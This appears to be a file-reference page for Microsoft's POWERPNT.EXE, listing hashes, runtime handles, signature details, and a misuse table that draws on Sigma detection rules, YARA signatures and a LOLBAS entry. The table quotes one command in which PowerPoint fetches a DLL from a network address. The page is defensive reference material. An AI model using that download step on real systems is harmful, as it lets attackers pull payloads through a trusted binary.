

---
title: POWERPNT.EXE | Microsoft PowerPoint
excerpt: What is POWERPNT.EXE?
---

# POWERPNT.EXE 

* File Path: `C:\Program Files (x86)\Microsoft Office\root\Office16\POWERPNT.EXE`
* Description: Microsoft PowerPoint

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `CF80E1F9CA40B53C3F1BEB961290F630`
SHA1 | `83C5505DF692CDE2300E71B42A6D72020CD64FBA`
SHA256 | `0AB3D664C94ABE60AB977311AC3195FC03BC147806CE4F538E1C64BD6507746E`
SHA384 | `134ED3A88DBD82CBE505916594E4887C89AD90F9E0FE31F3AAB8D06CF350C9637D2D37DB93A8D3DF5B41AB41245ED383`
SHA512 | `BEDB1FE2DDCDD7789508506685B3C5E6D7F5602FA25ABE52B946F6B0AFDB47935373D76E10D632B1DD627FE174B5DEF5C986BD0238C8A482B738B5A765D65CFD`
SSDEEP | `6144:wKw4BeXsm81c57ZXFzY5Ucyw4TapP25xxlq4cUcMeTO1o:cyKs78A5UcyOPexxPcUcMe/`
IMP | `8A07A9428B950BCD4CC11FDA15BF5856`
PESHA1 | `725BCBADE660D277BAA0DFF0DCD26FE2A8F6D3D0`
PE256 | `66BB61701F533A7976C477FD12D5B7BBCC46671D296D95D34B90C74D693AC476`

## Runtime Data

### Window Title:
Opening - PowerPoint (Read Only)

### Open Handles:

Path | Type
-- | --
(R--)   C:\ProgramData\Microsoft\Office\ClickToRunPackageLocker | File
(R--)   C:\Users\user\AppData\Local\Microsoft\Office\PowerP16.customUI | File
(R-D)   C:\Program Files (x86)\Microsoft Office\root\Office16\ONBttnPPT.dll | File
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\System32\en-US\d2d1.dll.mui | File
(R-D)   C:\Windows\System32\en-US\KernelBase.dll.mui | File
(R-D)   C:\Windows\System32\en-US\mswsock.dll.mui | File
(R-D)   C:\Windows\System32\en-US\propsys.dll.mui | File
(R-D)   C:\Windows\System32\en-US\Windows.Security.Authentication.Web.Core.dll.mui | File
(R-D)   C:\Windows\System32\en-US\winnlsres.dll.mui | File
(R-D)   C:\Windows\SystemResources\imageres.dll.mun | File
(R-D)   C:\Windows\SysWOW64\en-US\user32.dll.mui | File
(R-D)   C:\Windows\SysWOW64\stdole2.tlb | File
(RW-)   C:\Users\user\Documents | File
(RW-)   C:\Windows | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.19041.488_none_11b1e5df2ffd8627 | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.508_none_429cdbca8a8ffa94 | File
(RWD)   C:\Windows\Fonts | File
(RWD)   C:\Windows\Fonts\segoeui.ttf | File
\BaseNamedObjects\__ComCatalogCache__ | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*{6AF0698E-D558-4F6E-9B3C-3716689AF493}.2.ver0x000000000000000a.db | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*{DDF571F2-BE98-426D-8288-1A9A39C3FDA2}.2.ver0x0000000000000002.db | Section
\BaseNamedObjects\C:\*ProgramData\*Microsoft\*Windows\*Caches\*cversions.2 | Section
\BaseNamedObjects\F932B6C7-3A20-46A0-B8A0-8894AA421973 | Section
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\BaseNamedObjects\windows_shell_global_counters | Section
\Sessions\1\BaseNamedObjects\10FM_ACB_S-1-5-5-0-257318 | Section
\Sessions\1\BaseNamedObjects\10FM_ACBBD_S-1-5-5-0-257318 | Section
\Sessions\1\BaseNamedObjects\6c8HWNDInterface:8c042e | Section
\Sessions\1\BaseNamedObjects\UrlZonesSM_user | Section
\Sessions\1\BaseNamedObjects\windows_shell_global_counters | Section
\Sessions\1\BaseNamedObjects\windows_webcache_counters_{9B6AB5B3-91BC-4097-835C-EA2DEC95E9CC}_S-1-5-21-2047949552-857980807-821054962-504 | Section
\Sessions\1\Windows\Theme64749523 | Section
\Windows\Theme1120315852 | Section

### Loaded Modules:

Path |
-- |
C:\Program Files (x86)\Microsoft Office\root\Office16\POWERPNT.EXE |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\wow64.dll |
C:\Windows\System32\wow64cpu.dll |
C:\Windows\System32\wow64win.dll |

## Signature

* Status: Signature verified.
* Serial: `33000002CE7C9ACE7D905ED2B70000000002CE`
* Thumbprint: `B10607FB914700B40F794610850C1DE0A21566C1`
* Issuer: CN=Microsoft Code Signing PCA 2010, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: POWERPNT.EXE
* Product Name: Microsoft Office
* Company Name: Microsoft Corporation
* File Version: 16.0.12527.20482
* Product Version: 16.0.12527.20482
* Language: Language Neutral
* Legal Copyright: 
* Machine Type: 32-bit

## File Scan

* VirusTotal Detections: 0/72
* VirusTotal Link: https://www.virustotal.com/gui/file/0ab3d664c94abe60ab977311ac3195fc03bc147806ce4f538e1c64bd6507746e/detection/

## Possible Misuse

*The following table contains possible examples of `POWERPNT.EXE` being misused. While `POWERPNT.EXE` is **not** inherently malicious, its legitimate functionality can be abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\POWERPNT.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_dbghelp_dbgcore_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_suspicious_dbghelp_dbgcore_load.yml) | `- '\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_assembly_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_assembly_dll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_clr_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_clr_dll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dotnet_gac_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dotnet_gac_dll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_dsparse_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_dsparse_dll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_office_kerberos_dll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_office_kerberos_dll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_vbadll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_vbadll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_winword_wmidll_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_susp_winword_wmidll_load.yml) | `- '*\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '*\POWERPNT.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_spawn_exe_from_users_directory.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_spawn_exe_from_users_directory.yml) | `- '*\POWERPNT.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msoffice.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msoffice.yml) | `- https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msoffice.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msoffice.yml) | `- '\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_powershell_parent_process.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_powershell_parent_process.yml) | `- '\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_suspicious_remote_thread.yml) | `- '\powerpnt.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `Name: Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Command: Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office\Office16\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office\Office15\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office\Office14\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Powerpnt.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Powerpnt.yml) | `- Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe` | 
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_enfal.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_enfal.yar) | $s0 = "POWERPNT.exe" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)

MIT License. Copyright (c) 2020 Strontic.

